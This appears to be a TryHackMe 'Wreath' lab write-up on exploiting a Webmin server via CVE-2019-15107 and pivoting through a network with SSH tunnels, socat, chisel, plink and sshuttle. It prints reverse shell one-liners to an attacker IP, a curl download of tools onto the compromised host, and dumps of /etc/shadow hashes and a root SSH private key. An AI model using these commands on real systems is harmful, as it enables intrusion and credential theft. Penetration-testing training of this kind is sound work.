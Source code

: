 # Wreath

Learn how to pivot through a network by compromising a public facing web machine and tunnelling your traffic to access other machines in Wreath's network. (Streak limitation only for non-subscribed users)

https://tryhackme.com/room/wreath

## 1. Background

<details>
  <summary>---</summary>

> *There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.*

- 3 machines on the network
- At least one public facing webserver
- Self hosted git server on the network
- git server is internal. There may be sensitive information to find
- PC on the network with AV installed - likely Windows
- Windows PC cannot be directly access from the webserver 

</details>

## 2. Webserver enumeration

<details>
  <summary>---</summary>

![Network map](./wreath-network.png)

### Initial scan

Start with nmap

We find there are 4 ports open

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

### Server OS

Find out what OS is running on the webserver - `centos`

```
nmap -p 80 -sV 10.200.81.200 -oN port80.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 02:00 EDT
Nmap scan report for 10.200.81.200
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
                                                                       
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
```

### Check out the web page

Opening `10.200.81.200` on a web browser redirects to `https://thomaswreath.thm/`

![Failed to resolve](./failed-resolve.png)

Fix this by editing `/etc/hosts` for Linux/Mac or `C:\Windows\System32\drivers\etc\hosts` on Windows.

`/etc/hosts` file
```
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.200.81.200   thomaswreath.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

With DNS resolving properly, we can now access the webserver and see if we can find any interesting information

We can see interesting info such as 
- Home address
- Home and mobile numbers `+447821548812 `
- Email address


### Check out port 10000 service

nmap scan reveals server version `MiniServ 1.890 (Webmin httpd)`
```
nmap -p 10000 -sV 10.200.81.200 -oN port10000.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:48 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.69 seconds
```

Vuln scan
```
nmap -p 10000 --script vuln 10.200.81.200 -oN port10000vuln.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:51 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE
10000/tcp open  snet-sensor-mgmt
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|_      http://www.exploit-db.com/exploits/1997/
|_sslv2-drown: 

Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds
```

Quick Google search reveals this server version is vulnerable to `CVE-2019–15107`

</details>

## 3. Webserver Exploitation

<details>
  <summary>---</summary>

Exploit can be downloaded and run from `https://github.com/MuirlandOracle/CVE-2019-15107`

pip is required to install dependencies `cd CVE-2019-15107 && pip3 install -r requirements.txt`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

This is just a pseudo shell. Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

If `nc` is available you can run this

```
nc -e /bin/sh 10.50.82.56 1337 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

### Stabilise the shell

1. Spawn PTY with python

```
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# 
```

2. Background the shell with `CTRL Z`. Then examine current terminal and STTY info

```
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ echo $TERM
xterm-256color

kali@kali:~$ stty -a
speed 38400 baud; rows 54; columns 185; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;
discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

```
> This reveals term type: `xterm-256color` and the size of current TTY: `rows 54; columns 185`

while the shell is in the background, run `stty raw -echo` then `fg` and `export TERM=xterm`

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45248
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ stty raw -echo
kali@kali:~$ nc -lvnp 1337
                          export TERM=xterm
[root@prod-serv ]# 
```

> Note `nc -lvnp 1337` was not typed. It was `fg` but not echoed back

The shell is now stabilised

Summary:
1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `CTRL Z`
3. `stty raw -echo`
4. `fg`
5. `export TERM=xterm`

### Dump password hash

```
cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18573::::::
systemd-coredump:!!:18573::::::
systemd-resolve:!!:18573::::::
tss:!!:18573::::::
polkitd:!!:18573::::::
libstoragemgmt:!!:18573::::::
cockpit-ws:!!:18573::::::
cockpit-wsinstance:!!:18573::::::
sssd:!!:18573::::::
sshd:!!:18573::::::
chrony:!!:18573::::::
rngd:!!:18573::::::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
unbound:!!:18573::::::
apache:!!:18573::::::                                                                                                                                                                    
nginx:!!:18573::::::                                                                                                                                                                     
mysql:!!:18573:::::: 
```

### Find interesting access keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

Since we are root, we have read access to the private key `id_rsa`. Save the key locally

```
cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
...
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

Copy it to local machine and change file permission to suit SSH standards

```
kali@kali:~/thm/wreath/.ssh$ chmod 600 id_rsa 
kali@kali:~/thm/wreath/.ssh$ ls -la
total 12
drwxr-xr-x 2 kali kali 4096 Apr  4 05:30 .
drwxr-xr-x 4 kali kali 4096 Apr  4 05:30 ..
-rw------- 1 kali kali 2602 Apr  4 05:30 id_rsa
```

> Note: if you dont change the permission of the key, you wont be able to use it

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
root@10.200.81.200: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

Now we can just use this key to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

</details>

## 4. Pivoting

<details>
  <summary>---</summary>

### Definition

Pivoting is using access obtained over one machine to exploit another machine deeper in the network.

The technique involves gaining initial access to a remote network, and use it to access other machines

![pivoting](pivoting.png)

Above there are four machines on the target network
- 1 public facing server
- 3 machines not exposed to the internet

By accessing the public server, it is then possible to pivot to attack the other 3 targets.

### Methods

Methods varies depending on OS

Two main methods:

1. Tunnelling/Proxying

Creating proxy connection through compromised machine. 
This could be tunnelled inside another protocol (eg. SSH tunnelling) which is useful in evading basic intrusion detection system or firewall

Proxying is preferred when there is need to redirect lots of different kinds of traffic to target network eg. nmap scan or access multiple ports on multiple different machines

2. Port forwarding

Creating a connection between local port and single port on a target via compromised host

Port forwarding tends to be faster and more reliable but only allow access to a single port (or small range) on a target device

Example pivoting tools

- Enumerating a network using native and statically compiled tools
- Proxychains / FoxyProxy
- SSH port forwarding and tunnelling (primarily Unix)
- plink.exe (Windows)
- socat (Windows and Unix)
- chisel (Windows and Unix)
- sshuttle (currently Unix only)

</details>

## 5. Pivoting Enumeration

<details>
  <summary>---</summary>

### Enumerate compromised host

In order of preferences

1. Using materials found on the machine eg. ARP cache, hosts file, DNS server
2. Using pre-installed tools
3. Using statically compiled tools
4. Using scripting techniques
5. Using local tools through proxy

Local tools can be slow and should be last resort

### Checking arp cache

ARP cache can be found on Windows or Linux. This will show any IP addresses of hosts that target has interacted with recently

```
arp -a
```

### Check static mapping

Found in `/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts` 

Linux local DNS found in `/etc/resolv.conf` or `nmcli dev show` - can be misconfigured to allow DNS zone transfer attack
Windows DNS server can be checked with `ipconfig /all`

### Check if nmap installed

If no nmap write a script 

ICMP ping scan 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

Port scanning - takes a long time however
```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Example static binaries

These binaries can be uploaded to the compromised machine to run. See Pivoting - Socat for more instructions

[socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[other binaries](https://github.com/andrew-d/static-binaries)

</details>

## 6. Proxychains and FoxyProxy

<details>
  <summary>---</summary>

### Proxychains

Prepend other commands. Proxychains uses config file in `./proxychains.conf`, `~/.proxychains/proxychains.conf`, or `/etc/proxychains.conf` 

```
proxychains nc 172.16.0.10 23
```

Multiple servers can be used to chain all proxies together
in `proxychains.conf`
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Comment out `proxy_dns` line when doing nmap scans through proxy chains as this can cause the scan to hang

```
# Proxy DNS requests -no leak for DNS data
# proxy_dns
```

Other things to note
- Only TCP scans - no UDP or SYN scans
- ICMP echo packets (ping) will not work, use -Pn to prevent nmap
- It will be slow. Try only use nmap through a proxy when using the NSE (use static binary to see open ports/hosts before proxying a local copy of nmap to use the scripts library)

### FoxyProxy

Better with web browser. Popular with Burp and ZAP

</details>

## 7. Pivoting SSH Tunnelling / Port Forwarding

<details>
  <summary>---</summary>

### Forward connections

Creating a forward (local) SSH tunnel done on attacking box when we have SSH access to the target. Two ways: `port forwarding` or `creating a proxy`

1. Port Forwarding

`-L` : enables port forwarding. Link to local port
`-f` : backgrounds terminal immediately
`-N` : tells SSH theres no commands to be executed only set connection

Eg.
- We have access to SSH 172.16.0.5
- Web server on 172.16.0.10
- `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
- This means we can access webserver `172.16.0.10` by visiting `localhost:8000` on a web browser through SSH tunnel from `172.16.0.5`

2. Creating a proxy

`-D [port]` : open up a port on attacking box as a proxy to send data to protected network. Useful when combined with proxychains

eg.
`ssh -D 1337 user@172.16.0.5 -fN`

### Reverse connections

Preferable if you have shell on server but not SSH access.
This is however riskier as you must access your attacking machine from the target by credentials or better yet key based system

1. Generate ssh keys `ssh-keygen`

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./reverse
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./reverse
Your public key has been saved in ./reverse.pub
The key fingerprint is:
SHA256:DmgoQJUIMyG6qW2F8zRMWQgFR/BfW37m2+MWYGttQNk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|Bo*B=..      o   |
|++ +.o      o E  |
|o   +   . ..     |
|.o = o . +  +    |
|+ + B o S ..o=   |
|.o * . o   +o +  |
|. o .   .  ... . |
| .           oo  |
|            .oo. |
+----[SHA256]-----+
```

2. Copy public key (`.pub` file) then edit `~/.ssh/authorized_keys`
3. New line: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` then paste the public key. This is to ensure the key only used for port forwarding. Stopping ability to gain a shell on attacking machine
4. Check if SSH server running `sudo systemctl status ssh
```
sudo systemctl status ssh
[sudo] password for kali: 
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: man:sshd(8)
             man:sshd_config(5)
```

SSH service can be started with
```
sudo systemctl start ssh
```

5. Lastly transfer the private key to the target box. This is usually an absolute no-no. This is why we generate a throwaway set of SSH keys to be discarded as soon as the engagement is over
6. We can finally connect back with a reverse prot forwarding using

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

For the web server 172.16.0.10 and 172.16.0.5 shell'd server. With attacking box 172.16.0.20

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

On newer client the reverse proxy creation can be done with `-D`

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To kill any connections use `ps aux | grep ssh` then `sudo kill PID`

</details>

## 8. Pivoting - plink.exe

<details>
  <summary>---</summary>

Plink.exe is a windows command line version of PuTTY SSH client. This was created before Windows had its own inbuilt SSH client.

Windows servers are unlikely to have an SSH server running so the use of plink is to transport binary to the target, then using it to create a reverse connection

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

`cmd.exe /c echo y` : non-interactive shells to get around warning message for never previously connected host

If we have access to 172.16.0.5 and forwarding connection to 172.16.0.10:80 back to port 8000 on the attacking machine 172.16.0.20

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Keys generated by `ssh-keygen` wont work here however. It will need to be converted by `puttygen` tool, installed by `sudo apt install putty-tools` then run `puttygen KEYFILE -o OUTPUT_KEY.ppk`. 

The .ppk file then can be transferred to Windows and used the same way as reverse port forwarding

plink is preinstalled on Kali at `/usr/share/windows-resources/binaries/plink.exe` but should be updated before engagement from https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

</details>

## 9. Pivoting - Socat

<details>
  <summary>---</summary>

Socat:
- Great for fully stable Linux shells
- Port forwarding.
- However, rarely installed on target
- Unlikely to bypass AV in Windows
- Makes a good relay

For example: trying to get shell on a target without direct connection. Use socat to set up a relay on the compromised machine. This listens for the reverse shell from target and forwards to attacking box

![socat as a relay](socat.png)

Above we create a port forward from a port on the compromised server to a listening port on our attacker box. The other way is also possible: either forwarding a connection from attacking machine to a target inside network; or creat a direct link between listening port on attacking machine with service on the internal server. The latter is useful as it does not require opening a port to compromised server.

To download binary for socat:

1. Set up python web server on attacking machine (in the directory with socat binary)

```
sudo python3 -m http.server 80
```

2. Download on target machine with curl

```
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

Example

Attacking machine
```
kali@kali:~/thm/wreath$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.81.200 - - [05/Apr/2021 02:40:22] "GET /socat-Neozer0 HTTP/1.1" 200 -
10.200.81.200 - - [05/Apr/2021 02:41:13] "GET /nc-Neozer0 HTTP/1.1" 200 -

```

Compromised webserver
```
root@prod-serv tmp]# curl 10.50.82.56/socat -o /tmp/socat-Neozer0 && chmod +x /tmp/socat-Neozer0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  369k  100  369k    0     0   224k      0  0:00:01  0:00:01 --:--:--  224k

[root@prod-serv tmp]# ls -la socat-N*
-rwxr-xr-x. 1 root root 378384 Apr  5 05:08 socat-Neozer0
```

### Reverse shell relay

Start a listener in attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 443
listening on [any] 443 ...

```

run socat on compromised webserver
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:8000 tcp:10.50.82.56:443 &
[1] 2136
```

`tcp-l:8000` : create first half of the connection - an IPv4 listener on tcp port 8000 of target machine
`tcp:ATTACKING_IP_443` : connects back to our local IP on port 443
`&` : backgrounds the listener while we can still use the shell for other commands

Create reverse shell on newly opened port 8000

```
chmod +x ./nc-Neozer0

./nc-Neozer0 127.0.0.1 8000 -e /bin/bash

```

Back on attacking machine we have a reverse shell

```
sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 41630
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9b:ca:22:d5:ab brd ff:ff:ff:ff:ff:ff
    inet 10.200.81.200/24 brd 10.200.81.255 scope global dynamic noprefixroute eth0
       valid_lft 2072sec preferred_lft 2072sec
    inet6 fe80::9b:caff:fe22:d5ab/64 scope link 
       valid_lft forever preferred_lft forever
```

### Port forwarding -- easy

The quick and easy way is to open up a listening port on compromised server and redirect whatever traffic it receives to target server

For example, compromise server 172.16.0.5 and target port 3306 of 172.16.0.10 then we could run `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`. This opens port 33060 on compromised server and redirects input from attacking machine straight to target server 172.16.0.10 port 3306 (MySQL database)

`fork` : put every connection into new process
`reuseaddr` : port stays open after connection is made
`&` : backgrounds the shell, keep using same terminal session

Above options combined allow us to use the same port forward for more than one connection.

We can now connect to port 33060 on the relay 172.16.0.5 and connection directly relayed to our target 172.16.0.10:3306

![port forwarding easy diagram](port-forward-easy.jpg)

### Port forwarding -- quiet

If we want to avoid opening a port and potentially alert any host/network scanning, we can use a quieter method of port forwarding with socat. This is slightly more complex.

1. Open up two port listeners on the attacking machine

Attacking machine
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports 8000 and 8001, creating port relay

2. Start a relay on compromised server

Compromised relay server
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes connection between our listening 8001 on attacking machine and open port on target server

For example, 

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This creates a link between port 8000 on attacking machine and port 80 on intended target 172.16.0.10. If we go to localhost:8000 on our attacking machine's web browser, it would load the webpage served by target 172.16.0.10:80.

Summary visiting webpage on attacking server:
- Request goes to 127.0.0.1:8000
- Socat listener, anything goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to socat porcess on the compromised server. Anything coming out of port 8001 gets sent to compromised server and relayed to port 80 on target server

Summary target sends response:
- Response sent to socat process on compromised server. What goes in process comes out to port 8001 on our attacking machine
- Anything goes in port 8001 on attacking machine comes out of port 8000 which is where web browser expects to receive its response

![port forwarding quiet diagram](port-forward-quiet.jpg)

### Killing backgrounded socat port forwards

`jobs` : run command to see socat processes
`kill %NUMBER` : kill socat process

```
kali@kali:~$ socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
[1] 6453
kali@kali:~$ jobs
[1]+  Running                 socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
kali@kali:~$ kill %1
kali@kali:~$ jobs
[1]+  Exit 143                socat tcp-l:8001 tcp-l:8000,fork,reuseaddr
```

</details>

## 10. Pivoting - Chisel

<details>
  <summary>---</summary>

Tool to set up tunnelled proxy / port forward through a compromised system. Dont need SSH access on compromised server.

Download chisel binary from github and transfer to comrpomise webserver

Use scp

`scp -i [KEY] [FILE] user@address:/[PATH to save file]`

```
scp -i ssh/webserver_id_rsa chisel/chisel_1.7.6_linux_amd64  root@10.200.81.200:/tmp/chisel-Neozer0
chisel_1.7.6_linux_amd64                                100% 8144KB 677.9KB/s   00:12  
```

Chisel has two main uses: SOCKS proxy and port forwarding
```
./chisel-Neozer0 --help | head -19

  Usage: chisel [command] [--help]

  Version: 1.7.6 (go1.16rc1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

### Reverse SOCKS proxy

This connects back from compromised server to a listener on attacking machine

Attacking machine

```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised host
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

`R:socks` - remotes

Example

Attacking machine
```
kali@kali:~/thm/wreath$ chisel/chisel_1.7.6_linux_amd64 server -p 1337 --reverse &
[1] 8176
kali@kali:~/thm/wreath$ 2021/04/07 05:35:30 server: Reverse tunnelling enabled
2021/04/07 05:35:30 server: Fingerprint N8c7Wp59pZ7WNPRo4aVUU4MlhLOeauxzPIrIpMpfpZQ=
2021/04/07 05:35:30 server: Listening on http://0.0.0.0:1337
2021/04/07 05:37:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Notice proxy opened on 127.0.0.1:1080 - this is where we will send data through the proxy


Compromised host
```
[root@prod-serv tmp]# ./chisel-Neozer0 client 10.50.82.56:1337 R:socks &
[2] 2076
[root@prod-serv tmp]# 2021/04/07 10:37:11 client: Connecting to ws://10.50.82.56:1337
2021/04/07 10:37:13 client: Connected (Latency 262.021143ms)
```

### Forward SOCKS proxy

Less common than reverse proxies.
Like bind shells are less common than reverse shells.

Egress firewalls are less stringent than ingress firewalls

Compromised host
```
./chisel server -p LISTEN_PORT --socks5
```

Attacking box
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

`PROXY_PORT` - port opened for proxy

Example
```
./chisel client 172.16.0.10:8080 1337:socks
```

Connect to a chisel server running on port 8080 of 172.16.0.10.
SOCKS proxy would open on port 1337 of attacking machine

> Note: Proxychains config needs to be updated to SOCKS5 proxy to work with Chisel

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

### Remote port forward

Connect back from compromised target to create the forward

Attacking box
```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised server
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

`LISTEN_PORT` - port chisel server start on

`LOCAL_PORT` - port open on our attacking machine linked to target port

Example

Attacking box: 172.16.0.20
Compromised server: 172.16.0.5
Target: 172.16.0.10:22

To forward 172.16.0.10:22 back to port 2222 on attacking machine
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

Attacking box
```
./chisel server -p 1337 --reverse &
```

This would allow access to 172.16.10:22 via SSH by navigating to 127.0.0.1:2222

### Local port forward

Connect from attacking machine to chisel server listening on a compromised target

Compromised target
```
./chisel server -p LISTEN_PORT
```

Attacking box
```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Example

Connect to 172.16.0.5:8000 (compromised host running chisel), forwarding our local port 2222 to 172.16.0.10:22 (intended target)
```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```

> ./chisel client 172.16.0.100:3306 R:socks:172.16.0.200:1337 &

</details>

## 11. Pivoting - sshuttle

<details>
  <summary>---</summary>

- Uses SSH connection to create tunnelled proxy that acts like a new interface.
- Simulates a VPN
- Route traffice through proxy without using proxychains
- Encrypted connection
- Sits in the background and forward relevant traffic to target network

However
- Only works on Linux targets
- Requires access to compromised server via SSH
- Requires Python

1. Install sshuttle

`sshuttle -r username@address subnet`

2. Run sshuttle

eg: `sshuttle -r user@172.16.0.5 172.16.0.0/24`

We can avoid specifying subnet with `-N`. Not always successful.

`sshuttle -r username@address -N`

We also need to append `&`

Then enter username and password

Successful response:

`c: Connected to server.`

3. Run sshuttle with key based auth

Use `--ssh-cmd` switch followed by `ssh -i keyfile`

